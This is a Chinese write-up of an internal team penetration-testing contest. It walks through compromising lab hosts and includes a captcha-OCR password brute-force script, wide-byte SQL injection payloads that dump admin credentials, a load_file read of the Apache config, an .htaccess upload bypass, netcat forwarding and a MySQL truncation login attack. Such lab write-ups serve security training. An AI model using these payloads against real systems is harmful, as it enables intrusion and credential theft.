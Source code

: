 团队内部渗透打比赛（考核）
(个人赛)

#### 第一节：

title:进入192.168.1.6 获取秘匙。
ps: http://www.liuyan.com 跟 192.168.1.6是工作区
规程：渗透过程不得使用nmap等扫描端口工具，更加不能
使用WEB扫描器。（只要有关于爬虫都不行 or 扫描owasp
top 10 ）除非工具是你个人写的。 更加不可以作弊：比如
ip冲突，中间人攻击。请保持好个人素质。特别注意：全过
程中不得求助增援，只能靠个人实力，为了防止作弊全过程
需要屏幕录像。
­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­打开 http://192.168.1.6 提示没权限访问。。。
估计做了白名单验证。。。
然而：http://www.liuyan.com 是可以访问的。
简单收集下信息：
http://www.liuyan.com [200] Apache[2.4.7],
Country[RESERVED][ZZ], HTTPServer[Ubuntu
Linux][Apache/2.4.7 (Ubuntu)], IP[192.168.1.7],
Index­Of, Title[Index of /]
提示说：密码 4位int密码。
我一开始想到了密码爆破 至于验证码嘛 肯定是存在session
没更新导致验证码复用的漏洞，但是经过测试发现这个漏洞
不存在。
所以唯一的办法就是写验证码识别。。
分析一下验证码的 锚点 跟 干扰线，以及模糊度 等。
经过分析如果要让程序识别这种验证码等话成功率大概有
90％。

`coding=utf­8`

`import requests,pytesseract,os,time,re;`
`from PIL import Image`
`cookie = {'PHPSESSID':`
`'e5n02iaupp5kbctejsn4i536m9'}`
`for intt in xrange(1000,9999):`
`r =requests.get('http://www.liuyan.com/3.php',cookies`
`=cookie)`
`l = open('./3.png', 'w+')`
`l.write(r.content);`
`l.flush();`
`os.fsync(l);`
`l.close();`
`if os.path.isfile('3.png') :`
`Image.open('3.png')`
`image = Image.open('3.png')`
`vcode = pytesseract.image_to_string(image)`
`canshu = {'act': 'post', 'password': intt`
`,'Verification':vcode}`
`r =requests.post('http://www.liuyan.com/1.php',data=`
`canshu,cookies=cookie)`
`html = r.text.encode('utf­8');`
`r = r"No,passworld";`
`if re.findall(r,html) :`
`print 'NO ,passwd: %i' % (intt);`
`else:`
`print 'YES ,passwd: %i' % (intt);`
`break`
`time.sleep(0.05);`
密码 1115
然后进入到这个页面：
一直想不明白这是干嘛的。单引号也没报错。然后经用掉
js。。
然后看到了这个：
应该是输出字符串之后就跳转了 导致看不到这个信息，再
想他给我提示这个干啥？难到sql注入？
看到了单引号被转义只能把注意力放到后台那边：
爆破了好久都没结果。。浪费了一堆时间，收集了出题官的
手机啥的爆破都没结果。。
虽然单引号被转义了。但我突然又想到了宽字节注入。。。
果然。。。。。得到数据库：hacker
浏览器好麻烦。。想用burp但是又不能用。。
本来想爆数据库密码的 但是mysql没有开启外链
也考虑到数据库密码可能还解不开。
先进后台看看吧。
暴表：
select table_name from information_schema.tables
where table_schema=database()
insert into liuyan values ('運' , (select table_name
from information_schema.tables where
table_schema=database() limit 0,1))##' , 'e')
暴字段：
insert into liuyan values ('運' , (selEct
GrouP_coNCat(COLUMN_NAME) fRom
information_schEma.COLUMNS where
TABLE_NAME=0x61646d696e limit 0,1))##' , 'e')
数据库 hacker
表:liuyan , admin
admin字段：user,pass
暴数据：
selEct GrouP_coNCat(user,0x2D002D00,pass) fRom
admin as ww limit 0,1
insert into liuyan values ('運' , (selEct
GrouP_coNCat(user,0x2D002D00,pass) fRom admin
limit 0,1))##' , 'e')
其实我很想用sqlmap进行注入 因为上面的规则没有说不能
用sqlmap 但是sqlmap好像不支持values注入，注入的时
候居然检测不出来。
然后我问了一个大神。
然后登录后台：
密码错误？？这里我抽根烟花了10分钟在想原理（因为我整
个数据库都翻遍了）
然后查看源码。。。
还好 我懂js。。。不然就永远卡在这了。。
一个点击事件触发一个函数然后你的cookie名称tem的值不
等于hacker的话 那么就输出一句话 然后false 不再执行。
然后我禁用掉了js 进行登录发现还是登录不了。。难不成也
在后台做限制了？好吧。还是老老实实的定义cookie 吧。
登录之后是个上传。不过需要提供上传路径。
获取上传路径有2种方法。
第一种 因为存在sql注入 所以把那个留言的数据全部删掉，
看看报不报错，因为我发现好多程序员在前端输出数据的时
候根本不判断数据是否为空就直接遍历了。
第二种 因为存在sql注入 所以读取服务器配置文件查看路径
当然如果默认路径没改的话。
ubuntu apache 的配置文件路径
/etc/apache2/apache2.conf
selEct
load_file(0x2f6574632f617061636865322f6170616
36865322e636f6e6620)
经过测试 是黑名单验证
然后利用 .htaccess 上传
新建个 .htaccess文件内容:
<Files *.jpg>
ForceType application/x­httpd­php
SetHandler application/x­httpd­php
</Files>
在他当前目录下 只要是以jpg结尾的 都会以PHP程序去解析
mac os x 渗透好麻烦，因为没环境。。。。挖漏洞还可
以。。哎。这工具卡在这了，平时都能用的，今天换了jpg
就卡这了。希望看到的反馈bug给这个作者。。
然后新建一个看看。
这权限好像有点不科学。不知道是不是出题官故意的。。。
下载个nc 进行转发
很多人都不知道为什么要用nc转发，难到用菜刀来执行命令
不是方便点嘛？
这点我得说一下虚拟化的执行命令的区别。就比如：
看到区别在哪了吧？
前面我推断192.168.1.6 应该做了白名单 所以我的思路是
想通过这个肉鸡来代理进行访问然后再渗透。
然后肉鸡上的Socks 已经安装成功
但是我自己的mac os x却安装失败
上kali吧 kali就是ubuntu....
哈哈 开心死了。居然跟我想的一样。。
http://192.168.1.6/admin.php 应该是后台登录。
http://192.168.1.6/register.php 这是注册的。。。
这里我花了整整差不多30分钟才搞定。
你想啊。他就给你一个登录一个注册，然后提示管理员的账
号是admin。
然后我又想到了我以前看过一本书 就是白帽子讲解web安
全。。
这个是my.ini的漏洞。
sql￾mode="NO_AUTO_CREATE_USER,NO_ENGINE_SU
BSTITUTION"
我还是说一下原理吧。。。。
比如一个表的结构是这样的：
create table admin(
username varchar(10) not null,
passwd varchar(10) not null);
可以看到username跟passwd的字节为10 但是这my.ini
设置成
sql￾mode="NO_AUTO_CREATE_USER,NO_ENGINE_SU
BSTITUTION"的话
就算超出也会添加成功 比如：
insert into admin values(‘1234567891 2’,and);
他不会插入“1234567891 2 ”而是插
”1234567891“ 因为指针到1的时候字节就等于10
了。。。
最后得到密钥：adkbdf!@#dmejfn^&*!
除了第一节可以完成 其它都是完成不了的。
(个人赛)

#### 第二节：

title:app反编译查找漏洞
规则：不得求助别人，全过程需要屏幕录像。

#### 第三节：

title:修改Sqlmap源码
ps: http://www.demo.com/1.php?id=1 存在SQL注入
不过select from 单引号 union 都被
过滤了，而你们要做的就是通过SQLMAP进行注入。
规则：不得求助别人，全过程需要屏幕录像。
（团队赛）

#### 第四节：

title：反黑客，抓黑客。
ps:某公司凌晨3点46分糟到不明黑客入侵，数据泄露。而
你们要做的就是 定位他，找到他，逮捕他。
规则：没任何规则。
因为2～4都失败了，所以就没写了。
第二节失败原因：利用dex2jar jdgui进行反编译得到源
码，然后。。。看不懂java语言 又找不到一些敏感的文件
所以失败。
第三节失败原因：修改了sqlmap源码就存在各种bug。而
且有部分源码还看不懂，因为太多模块都没用过。所以选择
放弃。
第四节失败原因：黑客入侵了服务器然后修改apache日志
清空，然后再删除，然后又写个脚本开机启动，开机后就会
运行程序删除服务器日志等，我们还原了iis日志后 文件是
空的。折腾了几小时之后选择放弃。（不过有1个成员成功
获取到了入侵者ip 流程好像是入侵了vpn服务器之后收集黑
客的脚印，获取了黑客的qq 最后成功获取到黑客ip 手机号
码 常用密码 在哪工作。我很好奇的问他 你是怎么还原文件
内容的。他跟我说了一大堆。我一点都听不懂。。。。）